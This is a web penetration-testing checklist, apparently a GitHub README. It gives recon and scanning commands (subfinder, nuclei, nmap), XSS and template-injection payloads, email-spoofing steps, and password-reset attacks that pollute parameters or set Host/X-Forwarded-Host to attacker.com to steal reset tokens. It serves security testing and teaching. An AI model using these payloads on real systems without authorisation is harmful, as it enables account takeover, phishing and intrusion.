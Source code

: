 # Penetration-Testing-Checklist
A Penetration Testing Checklist for web ensures comprehensive security by systematically identifying and addressing potential vulnerabilities. It covers key areas like authentication, session management, input validation, access controls, and data encryption, enhancing overall web application security.


1.Information Gathering <br>

&nbsp;&nbsp;&nbsp;a)https://dorks.faisalahmed.me/# <br>
&nbsp;&nbsp;&nbsp;b)https://taksec.github.io/google-dorks-bug-bounty/ <br>
&nbsp;&nbsp;&nbsp;c)https://mr-koanti.github.io/shodan <br>
&nbsp;&nbsp;&nbsp;d)https://www.lopseg.com.br/osint <br>
&nbsp;&nbsp;&nbsp;e)https://web.archive.org/web/*/shippit.com* <br>

**Review Webserver Metafiles for Information Leakage** <br>

&nbsp;&nbsp;&nbsp;a)Visit robots.txt in the targeted website. <br>
&nbsp;&nbsp;&nbsp;b)Visit sitemap.xml in the targeted website. <br>

2.Configuration and Deployment Management Testing <br>

Subdomain Enumeration <br>

&nbsp;&nbsp;&nbsp;a)subfinder -d example.com -o subdomains.txt -all -vv <br>
&nbsp;&nbsp;&nbsp;b)cat subdomains.txt | httpx-toolkit > live_subdomains.txt <br>
&nbsp;&nbsp;&nbsp;c)https://subdomainfinder.c99.nl/ <br>

Vulnerability Scanning using Nuclei <br>

&nbsp;&nbsp;&nbsp;a)nuclei -l live_subdomains.txt -o nuclei_reslut.txt <br>
&nbsp;&nbsp;&nbsp;b)nuclei -l live_subdomains.txt -rl 3 -c 2 -o nuclei_reslut.txt <br>
&nbsp;&nbsp;&nbsp;c)subfinder -d target.com -all | httpx | nuclei -t ~/nuclei-templates <br>
&nbsp;&nbsp;&nbsp;d)https://blog.projectdiscovery.io/ultimate-nuclei-guide <br>

Subdomain Takeover <br>

&nbsp;&nbsp;&nbsp;a)subzy run --targets live_subdomains.txt <br>
&nbsp;&nbsp;&nbsp;b)nuclei -l live_subdomains.txt -t ~/nuclei-templates/http/takeovers/ <br>

Port Scan and Service discovery <br>

&nbsp;&nbsp;&nbsp;a)nmap -iL without_https.txt -sV <br>

Origin ip Disclosure <br>

&nbsp;&nbsp;&nbsp;a)https://www.shodan.io/ <br>
&nbsp;&nbsp;&nbsp;b)https://search.censys.io <br>

Broken Link Hijacking <br>

&nbsp;&nbsp;&nbsp;Manually open all subdomain to find and click external links on the subdomains to verify. <br>
&nbsp;&nbsp;&nbsp;python3 BLH.py https://www.example.com/ <br>
&nbsp;&nbsp;&nbsp;blc -rof --filter-level 3 https://example.com/ <br>

Mail Server Misconfiguration <br>

&nbsp;&nbsp;&nbsp;a)Now Email Spoofing happens due to two main reasons : <br>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;1)SPF record not set for the particular email <br>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;2)Missing of DMARC protocol for the particular email <br>
&nbsp;&nbsp;&nbsp;b)Go to your target company and collect all the possible emails of that company <br>
&nbsp;&nbsp;&nbsp;c)Now check the SPF and DMARC record of all the emails : https://mxtoolbox.com/ <br>
&nbsp;&nbsp;&nbsp;d)Now if you get an email (xyz@company.com), then go for its exploitation <br>
&nbsp;&nbsp;&nbsp;e)Visit https://emkei.cz/ in order to exploit the issue <br>
&nbsp;&nbsp;&nbsp;f)Here you’ll need to fill From-email, To and Subject <br>
&nbsp;&nbsp;&nbsp;g)In From-email add the company’s email and in To add your own email and in Subject <br> &nbsp;&nbsp;&nbsp;you can add anything (like Hacking You, Bounty Time etc.) <br>
&nbsp;&nbsp;&nbsp;h)Check your inbox and you’ll get the email from that company which was sent by you <br>

SIGNUP PAGE VULNERABILITIES <br>

No Rate Limit at Signup Page <br>

&nbsp;&nbsp;&nbsp;1)Enter your details in signup form and submit the form <br>
&nbsp;&nbsp;&nbsp;2)Capture the signup request and send it to intruder <br>
&nbsp;&nbsp;&nbsp;3)add $$ to email parameter <br>
&nbsp;&nbsp;&nbsp;4)In the payload add different email address <br>
&nbsp;&nbsp;&nbsp;5)Fire up intruder and check whether it return 200 ok <br>


Hyper Link Injection Vulnerability <br>

&nbsp;&nbsp;&nbsp;1)Go to https://target.com/ and create account with the first name http://attacker.com/ and last name. <br>
&nbsp;&nbsp;&nbsp;2)Now check your email and you notice there is malicious hyperlinks. <br>
&nbsp;&nbsp;&nbsp;3)Hyperlink Injection in Friend Invitation Emails. <br>
&nbsp;&nbsp;&nbsp;4)A user can change their name to a URL in order to send email invitations containing malicious hyperlinks. <br>

Server Side Template Injection on Name parameter during Sign Up process <br>

&nbsp;&nbsp;&nbsp;1)Navigate to the Singup page. <br>
&nbsp;&nbsp;&nbsp;2)Now, in the First Name field, enter the value {{7*7}} <br>
&nbsp;&nbsp;&nbsp;3)Fill in the rest of the values on the Register page and register your account. <br>
&nbsp;&nbsp;&nbsp;4)We have used the payload {{7*7}} here to verify that it is being evaluated at the backend. <br>
&nbsp;&nbsp;&nbsp;5)Now, wait for the welcome/promotional email to arrive in your Inbox. <br>
&nbsp;&nbsp;&nbsp;6)Notice that the email arrives with the Subject as 49. <br>
&nbsp;&nbsp;&nbsp;7)Try all input fields. <br>

Reflected XSS on Signup Page and Login page <br>

&nbsp;&nbsp;&nbsp;1)Go to https://example.com/signup <br>
&nbsp;&nbsp;&nbsp;2)Just fill up the signup form and don't submit. <br>
&nbsp;&nbsp;&nbsp;3)Open burp suite captures the submit request. <br>
&nbsp;&nbsp;&nbsp;4)Change the value of email parameter from a valid email address to <img src=xonerror=alert(document.domain)> <br>
&nbsp;&nbsp;&nbsp;5)Forward the request and turn the intercept off. <br>
&nbsp;&nbsp;&nbsp;6)Go to browser check. <br>
&nbsp;&nbsp;&nbsp;7)Payload for Username field : <svg/onload=confirm(1)> <br>
&nbsp;&nbsp;&nbsp;8)Payload for Email field : a7madn1@gmail.com'"><svg/onload=alert(/xss/)>, “><svg/onload=confirm(1)>”@x.y <br>

PASSWORD RESET PAGE VULNERABILITIES <br>

No Rate Limiting on Password Reset functionality <br>

&nbsp;&nbsp;&nbsp;a)Find the reset password page on the web application. <br>
&nbsp;&nbsp;&nbsp;b)Enter the email then click reset password <br>
&nbsp;&nbsp;&nbsp;c)Intercept this request in burp suite.. <br>
&nbsp;&nbsp;&nbsp;d)Send it to the intruder and repeat it 50 times. <br>
&nbsp;&nbsp;&nbsp;e)You will get 200 OK status. <br>

Account takeover by password reset functionality <br>

&nbsp;&nbsp;&nbsp;email= victim@gmail.com&email=attacker@gmil.com <br>
&nbsp;&nbsp;&nbsp;email= victim@gmail.com%20email=attacker@gmil.com <br>
&nbsp;&nbsp;&nbsp;email= victim@gmail.com |email=attacker@gmil.com <br>
&nbsp;&nbsp;&nbsp;email= victim@gmail.com%0d%0acc:attacker@gmil.com <br>
&nbsp;&nbsp;&nbsp;email= victim@gmail.com&code= my password reset token <br>

Denial of service when entering a long password

&nbsp;&nbsp;&nbsp;Go Sign up page and Forgot password page <br>
&nbsp;&nbsp;&nbsp;Fill the form and enter a long string in password <br>
&nbsp;&nbsp;&nbsp;Click on enter and you’ll get 500 Internal Server errors if it is vulnerable. <br>
&nbsp;&nbsp;&nbsp;Reference link - https://hackerone.com/reports/840598, https://hackerone.com/reports/738569 <br>

Password reset token leakage via referrer <br>

&nbsp;&nbsp;&nbsp;Go to the target website and request for password reset. <br>
&nbsp;&nbsp;&nbsp;Now check your email and you will get your password reset link. <br>
&nbsp;&nbsp;&nbsp;Click on any social media link you see in that email and password reset page. <br>
&nbsp;&nbsp;&nbsp;Don't change the password before clicking on any external links like social media links for the same website. <br>
&nbsp;&nbsp;&nbsp;Capture that request in burp suite, You will find a reset token in the referer header. <br>

Reset password link sent over unsecured http protocol <br>

&nbsp;&nbsp;&nbsp;Go to the target website and request a password reset. <br>
&nbsp;&nbsp;&nbsp;Check email, you will get a reset password link. <br>
&nbsp;&nbsp;&nbsp;Copy that link paste in the notepad and observe the protocol. <br>

Password Reset Token Leak via X-Forwarded-Host

&nbsp;&nbsp;&nbsp;Intercept the password reset request in Burp Suite <br>
&nbsp;&nbsp;&nbsp;Add or edit the following headers in Burp Suite : Host: attacker.com, X-Forwarded-Host: attacker.com. <br>
&nbsp;&nbsp;&nbsp;Forward the request with the modified header. <br>
&nbsp;&nbsp;&nbsp;Look for a password reset URL based on the host header like : https://attacker.com/reset-password.php?token=TOKEN. <br>

Password Reset Link not expiring after changing password <br>

&nbsp;&nbsp;&nbsp;First You need to create an account with a Valid Email Address. <br>
&nbsp;&nbsp;&nbsp;After Creating An Account log out from your Account and Navigate to Forgot Password Page. <br>
&nbsp;&nbsp;&nbsp;Request a Password Reset Link for your Account. <br>
&nbsp;&nbsp;&nbsp;Use The Password Reset Link And Change The Password, After Changing the Password Login to Your Account. <br> 
&nbsp;&nbsp;&nbsp;Now Use The Old Password Reset Link To Change The Password Again.<br>
&nbsp;&nbsp;&nbsp;If You Are Able to Change Your Password Again Then This Is a Bug. <br>

Password Reset Link not expiring after changing the email




